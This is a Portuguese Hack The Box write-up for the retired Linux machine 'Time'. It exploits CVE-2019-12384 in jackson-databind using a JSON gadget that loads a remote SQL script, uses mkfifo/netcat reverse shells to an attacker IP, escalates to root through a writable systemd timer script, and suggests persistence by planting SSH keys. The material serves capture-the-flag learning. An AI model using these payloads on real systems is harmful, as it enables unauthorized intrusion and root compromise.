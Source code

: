 ```yaml
---
layout: single
title: "Hackthebox write-up: Time"
namespace: "Hackthebox write-up: Time"
category: Writeup
tags: HackTheBox htb-medium htb-linux
date: 2021-04-03 16:00:00
header:
   teaser: https://i.imgur.com/dL9pe5L.png
---
```


Olá pessoal!

A máquina desta semana será **Time**, outra máquina Linux classificada como mediana do [Hack The Box](https://www.hackthebox.eu), criada por [egotisticalSW](https://app.hackthebox.eu/users/94858) e [felamos](https://app.hackthebox.eu/users/27390).<!--more-->

:information_source: **Info**: Write-ups para máquinas do Hack The Box são postados assim que as respectivas máquinas são aposentadas
{: .notice--info}

![Time](https://i.imgur.com/UViaunV.png){: .align-center}

## Enumeração

Iniciamos com a enumeração dos serviços publicado a partir de um quick scan do `nmap`, onde o output se encontra abaixo.

```bash
$ nmap -sC -sV -Pn -oA quick 10.10.10.214
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-02-26 16:08 -03
Nmap scan report for 10.10.10.214
Host is up (0.077s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 0f:7d:97:82:5f:04:2b:e0:0a:56:32:5d:14:56:82:d4 (RSA)
|   256 24:ea:53:49:d8:cb:9b:fc:d6:c4:26:ef:dd:34:c1:1e (ECDSA)
|_  256 fe:25:34:e4:3e:df:9f:ed:62:2a:a4:93:52:cc:cd:27 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Online JSON parser
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.70 seconds
```

### 80/TCP - Serviço HTTP

Iniciando a verificação pelo serviço HTTP que executa na porta 80, vemos que temos um serviço de validação e formatação de arquivo JSON

![Online JSON Parser - Time](https://i.imgur.com/KWUpOXL.png){: .align-center}

Após executar algumas enumerações utilizando `whatweb` e `nikto` não encontrei nada útil, logo parti para a enumeração da aplicação buscando por alguma vulnerabilidade de injeção de código ou LFI.

Analisando a aplicação temos duas funcionalidades: **Beautify** e **Validate**:

- A opção **beautify**, ao receber um JSON válido, o formata de forma "bonita" e, ao enviar um request inválido (por exemplo "test"), retorna o valor `null`.

![image-20210227103837978](https://i.imgur.com/gwqqcNt.png){: .align-center}

- Já a opção em beta **validate** verifica a sintaxe do JSON fornecido. Quando enviamos um request inválido (por exemplo "test"), exceção não esperada da aplicação é exibida.

  ```output
  Validation failed: Unhandled Java exception: com.fasterxml.jackson.core.JsonParseException: Unrecognized token 'test': was expecting 'null', 'true', 'false' or NaN
  ```

## Acesso inicial

Ao buscar por `com.fasterxml.jackson.core` encontrei detalhes sobre o projeto **Jackson**, desenvolvido pela **FasterXML** e do qual o componente core é base para o [jackson-databind](https://github.com/FasterXML/jackson-databind), popular pela sua biblioteca de JSON, a qual é implementada neste portal para as funcionalidades de validação e formatação.

Pesquisando por CVEs para o jackson-databind, os seguintes foram encontrados para execução de código em 2019, de acordo com o site [CVE Details](https://www.cvedetails.com):

![image-20210227112026175](https://i.imgur.com/ju87o1J.png){: .align-center}

Dos 4 itens listados, encontrei para o **CVE-2019-12384** um PoC funcional [neste blog](https://blog.doyensec.com/2019/07/22/jackson-gadgets.html), o qual utilizei para obter o acesso inicial. Os seguintes passos foram executados para obter um shell reverso:

- Criação de um arquivo `inject.sql` com o código abaixo, modificado da versão do blog para iniciar um shell reverso para a máquina atacante na porta 4443 e publicado usando um servidor HTTP python3 (`sudo python3 -m http.server 80`) a partir do diretório de onde o arquivo se encontra.

  ```sql
  CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException {
      String[] command = {"bash", "-c", cmd};
      java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(command).getInputStream()).useDelimiter("\\A");
      return s.hasNext() ? s.next() : "";  }
  $$;
  CALL SHELLEXEC('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 4443 >/tmp/f')
  ```

- Configurando listener via netcat com o comando `nc -lnvp 4443`.
- Enviado o payload abaixo na aplicação no lugar do JSON a ser validado.

  ```output
  ["ch.qos.logback.core.db.DriverManagerConnectionSource", {"url":"jdbc:h2:mem:;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM 'http://10.10.10.10/inject.sql'"}]
  ```

![Listener and Webserver - Time](https://i.imgur.com/xsb87hN.png){: .align-center}

![Online Json Parser - Sending the payload](https://i.imgur.com/SiAG5hB.png){: .align-center}

## User flag

Após upgrade do shell, iniciado enumeração e identificado que o usuário utilizado, **pericles**, era um usuário comum do Linux e não possuía nenhum tipo de privilégio especial.

```bash
pericles@time:/var/www/html$ id
uid=1000(pericles) gid=1000(pericles) groups=1000(pericles)
```

Acessando seu diretório raiz, encontrado o user.txt onde foi obtido o primeiro flag.

```bash
pericles@time:/var/www/html$ cd ~
pericles@time:/home/pericles$ cat user.txt 
<redacted>
pericles@time:/home/pericles$ 
```

## Root flag

Antes de dar continuidade na enumeração, para simplificar o processo de obtenção de um shell reverso se necessário, criado uma chave SSH usando o `ssh-keygen` e incluído a chave pública no arquivo `~/.ssh/authorized_keys`, o que nos permidiu conectar diretamente ao usuário pericles via SSH.

A enumeração foi realizada utilizando o script `linpeas.sh` e um dos itens encontrados chamou bastante atenção, fazendo referência ao nome da máquina: um arquivo shell de propriedade do usuário `pericles` no caminho `/usr/bin/timer_backup.sh`.

Este arquivo está configurado para execução através de um **system timer** (`/etc/systemd/system/timer_backup.timer` e `/etc/systemd/system/timer_backup.service`) e configurado para execução **a cada 10s** com privilegios de `root`.

Como temos privilégios para editar o shell script, inclui a linha abaixo para obter um shell reverso e, após alguns segundos, recebi um shell reverso! :smile:

```bash
rm /tmp/g;mkfifo /tmp/g;cat /tmp/g|/bin/sh -i 2>&1|nc 10.10.10.10 4443 >/tmp/g
```

Como o processo é reexecutado após 10s, todos os processos existentes são finalizados e perdemos a conexão com a máquina. Apenas obter o flag de root é uma tarefa possível neste tempo, o que foi utilizado inicialmente.

```bash
$ nc -lnvp 4443
listening on [any] 4443 ...
connect to [10.10.10.10] from (UNKNOWN) [10.10.10.214] 33304
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
# cat /root/root.txt
<redacted>
#      
```

Caso queira uma conexão mais persistente temos duas opções iniciais:

- Configurar o system timer para incluir a chave pública no arquivo `/root/.ssh/authorized_keys`, nos permitindo conectar via SSH como `root`.
- Iniciar outro shell reverso assim que obtermos a conexão inicial, que pode ser alcançado de múltiplas formas como Metasploit AutoRunScript e colocando uma instrução para ser passada assim que uma conexão via netcat é estabelecida, conforme podemos ver abaixo onde o comando `id` é executado assim que a sessão é iniciada:

```bash
printf "id\n" | nc -lnvp 4443
```

Espero que tenha sido útil e vejo vocês no próximo post! :smiley:
